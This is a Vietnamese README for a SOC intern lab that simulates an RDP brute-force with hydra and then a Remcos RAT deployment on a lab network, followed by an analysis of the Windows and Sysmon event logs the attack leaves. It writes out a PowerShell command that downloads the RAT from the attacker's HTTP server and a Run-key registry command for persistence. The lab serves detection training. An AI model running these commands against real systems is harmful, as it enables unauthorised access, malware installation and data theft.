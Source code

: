 # SOC Analyst Intern Project - RDP Brute-force & Remcos RAT Attack Simulation

# Mô tả Dự Án
Dự án mô phỏng kịch bản tấn công vào hệ thống Windows bằng phương pháp brute-force dịch vụ RDP, sau đó triển khai mã độc Remcos (Remote Access Trojan) để thực hiện Remote Code Execution (RCE), đánh cắp file và xóa dấu vết. Bài lab nhằm rèn luyện kỹ năng phát hiện, điều tra và phân tích sự cố trong vai trò SOC Analyst.

# Môi Trường Thực Hiện

# Windows 10 (IP: 192.168.1.5)
   - Tắt Windows Firewall
   - Bật Remote Desktop (RDP), mở port 3389
# Kali Linux (IP: 192.168.1.137)
   - Mã độc Remcos v6.1.0 Light (tải từ trang chủ Remcos)
# Điều kiện 2 máy ping được nhau
# I,Các Bước Thực Hiện
# 1. Khai Thác Brute-force Dịch Vụ RDP

Tạo file user.txt và pass.txt trên Kali

Sử dụng nmap để quét cổng 3389:

nmap -p 3389 192.168.1.5

Sử dụng hydra brute-force RDP:

hydra -t 1 -w 3 -L user.txt -P pass.txt rdp://192.168.1.5

Kết quả thành công:

Username: nhatnm

Password: 23032004

# 2. Triển Khai Mã Độc Remcos

Dựng HTTP server bằng Python:

python3 -m http.server 8000

Tải mã độc từ máy Kali về máy Windows:

powershell -c "Invoke-WebRequest -Uri http://192.168.1.137:8000/'Remcos v6.1.0 Light.exe' -OutFile C:\Users\Public\remcos.exe"

Thêm registry để thiết lập persistence:

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v remcos /t REG_SZ /d "C:\Users\Public\remcos.exe"

# 3. Thực Thi Tấn Công RCE và Xóa File

Thực hiện điều khiển từ xa qua Remcos

Đánh cắp file matma.txt từ thư mục: C:\Users\<user>\Desktop\bimat\

Xóa file gốc sau khi lấy cắp thành công

# II,Phân Tích LOG Sau Tấn Công

# 1. Phân Tích Log Windows

Event ID 4625: Nhiều lần đăng nhập thất bại (brute-force)

Event ID 4624: Đăng nhập thành công từ xa qua RDP

Sysmon ID 3: Ghi nhận kết nối mạng bất thường

Sysmon ID 1: Ghi nhận quá trình thêm registry (persistence)

# 2. Kết Luận

Nguồn tấn công: 192.168.1.137 (máy Kali)

Đích: 192.168.1.5 (máy Windows)

Cổng: 43064

Hostname tấn công: nhat.lan

Các giai đoạn:

Brute-force mật khẩu

Đăng nhập thành công

Cài đặt và thực thi Remcos RAT

RCE, đánh cắp dữ liệu và xóa file



